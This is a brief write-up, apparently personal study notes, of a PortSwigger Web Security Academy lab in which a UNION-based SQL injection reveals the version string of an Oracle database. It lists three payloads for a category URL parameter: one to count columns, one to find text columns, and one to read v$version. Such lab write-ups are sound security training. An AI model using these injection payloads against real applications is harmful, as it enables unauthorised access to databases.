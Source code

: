```yaml
---
title: 'Lab: SQL injection attack, querying the database type and version on Oracle'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection attack, querying the database type and version on Oracle
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 
* Our Goal: To solve the lab, display the database version string.

## Exp - [SQLi Cheat Sheet - Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)
According to the cheat sheet above, we can use the command to fetch the version of this database, e.g. 
![](https://i.imgur.com/Qxtgz5u.png)
:::warning
Before the recon, the hint told you that this database is created by `Oracle`. So, you must contained `From` preserved word in each query, e.g. `SELECT 'abc' FROM dual`
:::
1. Determine # of columns that are being returned by the query
Payload: `?category=Gifts' union select NULL,NULL from v$version--`

2. Which columns contain text data
Payload: `?category=Gifts' union select 'a','b' from v$version--`
Two of them are text data

3. Attack
Payload: `?category=Gifts' UNION SELECT BANNER,'abc' FROM v$version--`
    :::spoiler Result
    ![](https://i.imgur.com/KqhEhpV.png)
    :::

## Reference